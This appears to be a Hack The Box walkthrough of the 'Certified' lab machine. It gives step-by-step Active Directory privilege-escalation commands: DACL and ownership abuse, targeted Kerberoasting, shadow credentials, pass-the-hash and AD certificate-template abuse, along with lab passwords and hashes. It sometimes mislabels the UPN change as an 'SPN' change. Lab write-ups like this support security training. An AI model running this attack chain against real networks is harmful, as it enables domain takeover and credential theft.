HTB: Certified
HTB provides credentials as an assumed breach situation
judith.mader:judith09

Shell as management_svc
Judith has write owner over management

impacket-owneredit -action write -new-owner 'judith.mader' -target-sid 'S-1-5-21-729746778-2675978091-3820388244-1104' certified.htb/judith.mader:judith09
Giving our user write privileges
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
Add user to group
net rpc group addmem "MANAGEMENT@CERTIFIED.HTB" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "DC01.certified.htb"

We first got clock skew too great and ntupdate failed because i used it on another machine
resetting it to default clock and then to the DC again fixed this though
sudo ntpdate pool.ntp.org
sudo ntpdate 10.10.11.41
python3 targetedKerberoast.py -v -d 'certified.htb' -u 'judith.mader' -p 'judith09'
$krb5tgs$23$*management_svc$CERTIFIED.HTB$certified.htb/management_svc*$dd86a4c3dc2a2e09cbca3421bcbaed40$b0d6e2770db369380cbbf9ae011e68909b9e75e200acd0b5e080690edaa3bc53a22870d1165bb1bc1653103a39a0feeb614f29f95a7beb05b09ee0dd07f2956eb328260a5eb308d1f360f7ebe6e77f946364c4ee097201cbf0ab51dfd085371dc82414b302926c3cd7b64a741cb75aad4f5b31614f98ec3748bde4e01e94e3194ea42a252690c72b8a35fa381a8d6dbc03344511a2d256dc7359082aa1776b92bfcc49f61bb9c8b982864e55b3de6eaba71b135b58460ef895f59bb2ff331a52200f14f66502d06b7eace34ab8d5884b8f5d37085009bc6a97ee246748e96ad9a9485588d5fec8a2a6dcf2cde147e4ce166697e5babfbd73c605de35638e1c9ecf0398f0835991a0c1e8cf37232619d05146243c4c7d171258c9a0b22c4658b5d040f1264b9e8d0dbf19587eb7823a8fc693367462bb2dbb6c7cc2bf16cfb902dde5f5f2a6a639b1e086a872bb0bd330b16968a01b6334bcaf076b085960b222ac34b7e111b0419567e47a6dfc83ec3385e53259502e8e956734770db88d0f34cad79c224b8ff42b6064b0b4d9a3963e8129ffa3322ba75037bd86310c2ce669783d931f7db32d09621859cc069e6087732ba9e1c17e967a8061a5f61f9fd0fc248e18006819ca240b8d09b748ecc8120e271c7556a8d5bc2c5dd92a21177e2e14e2feea992ebe0dd380b9b4dd0381c63653e311da6f97e7784b7a8b124e7b8ef8425f5a3913bd887c1b84ffc0d794b429c7fb0a70fa309365e64154328bf69d49c16ff098e46d13a83f046fca59caaa5641eb4f48aac34ed40e3d16e920ce33e187275419ef562acdc7788e1fcebf4798b57aea850de74038502a0f647c54fccd5861f2fa0d63416683c730414005395322c6526686786a2f576ab7bada6fa61e980827f8193dd486f9b2d3e781bfb49fc4cf926d26b2c5cb0a4e5cddbcb95b919fc21f76dc8cd2b7cde95ddcbaa48b14af68542b2628ec7d84773caf9bb40053a74bba8a9985d866ba26381665e6da1d5e274d7c61f41a35e222edf4e39fad6911200f1a29b8847e5840aea324ef16a5181afb2f50ad055d8505aa49989af9b0f43a3d1cbfe3e1c5158965d5d59fdc4980b0c2a1a6c6c95ea5eafbf81cd147680ab8a48d22f1d586ea8f842e0f3eb14d2cfac1e0d2b13eabaf25bc0ac14120a3bcf46818ecfbe520d7e2441443d8f2e7fab8d677c8a6c22a850c94206d48e7e9b9c01c392543890299d6d707a5bbcf60a0822ec2167834859341ceb0a419e7842442669aea3acd953e78efecb6193d7eb623d05cc78bc9fba4a5e3c79ad9ca5ed7e44ea1ad210da4a3ee16ef62fda6b0b230883d20764be431fbf0ec9ffe9c58f4d29fdbc22df29855e0cb2fdd8bf15321e88b77e71f09b0533b3e8497b2e1e9b357bc75716c702b15179ac4e006f7b1fd9734d953b41ff76287a4124702c2213605a1d3cb7295527a5e6294efec425a6509060aaa65e3523e8637da44a46a58f07d14d7199782e44435afc47dadb23191727b6464a3ce1c1fa9779a55f4d5f19c29835a93fdd96e271a4f50a5ad30b4f7bdada6be1011ab6704dafe531e88c049
Couldnt crack the hash so we will try the pywhisker/shadow credentials path
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "MANAGEMENT_SVC" --action "add"
python3 gettgtpkinit.py -cert-pfx ../RTs4iorA.pfx -pfx-pass OCcl8Wi1mpaKQedtXasG certified.htb/MANAGEMENT_SVC MANAGEMENT_SVC.ccache -dc-ip 10.10.11.41
Ippsec has a good video on this part
using the information above we can request an NTLM hash(I tried just using the TGT ticket but it took too long and id get “CLOCK SKEW TO GREAT”
python3 getnthash.py certified.htb/management_svc -key a24b94cea78aa4b116b129c258d35f8a049c8a91b4a6e0f275f08d782f832db6
management_svc:a091c1832bcdd4677c28b5a6a1295584
evil-winrm -i 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584Access as CA_Operator
We have generic all over CA_OPERATOR

pth-net rpc password "CA_OPERATOR" "newP@ssword2022" -U "certified.htb"/"management_svc"%"ffffffffffffffffffffffffffffffff":"a091c1832bcdd4677c28b5a6a1295584" -S "10.10.11.41"netexec smb 10.10.11.41 -u CA_OPERATOR -p newP@ssword2022
Using certipy we can request for vulnerable certificates
certipy-ad find -vulnerable -u CA_OPERATOR@certified.htb -p newP@ssword2022
This link from hacktricks was very helpful in exploiting this.
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation

Shell as Administrator
Overview of the attack
We can change CA_operators spn to be the administrator SPN
Request a administrator pfx
Change the CA_operator spn back to CA_operator
then use the administrator.pfx hash to get the admin ntlm
Change ca_operator's spn to administrator using management_svc as we have generic all over ca_operator
certipy-ad account update -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
Request for the certificate which will be an admin certificate since we change the SPN of our user
certipy-ad req -username CA_OPERATOR@certified.htb -p newP@ssword2022 -ca certified-DC01-CA -template CertifiedAuthentication
Now we can get the NTLM for admin user
certipy-ad auth -pfx administrator.pfx -domain certified.htbAt first we get an error because we need to change CA_operator back to CA_operator

Change UPN back to CA_operator
certipy-ad account update -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator
Get NTLM hash
certipy-ad auth -pfx administrator.pfx -domain certified.htb
grab root.txt
evil-winrm -i 10.10.11.41 -u Administrator -H 0d5b49608bbce1751f708748f67e2d34